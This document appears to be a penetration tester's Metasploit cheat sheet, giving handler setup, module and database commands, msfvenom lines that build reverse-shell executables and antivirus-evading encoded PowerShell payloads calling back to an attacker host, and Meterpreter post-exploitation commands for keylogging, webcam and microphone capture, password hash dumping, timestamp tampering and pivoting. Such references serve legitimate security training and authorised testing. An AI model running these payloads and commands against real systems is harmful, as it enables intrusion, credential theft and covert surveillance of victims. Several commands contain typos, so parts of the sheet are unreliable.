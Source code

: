 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Example rc file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run an rc file | <code> Resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Useage** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 
Help | msfvenom --help-formats

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap







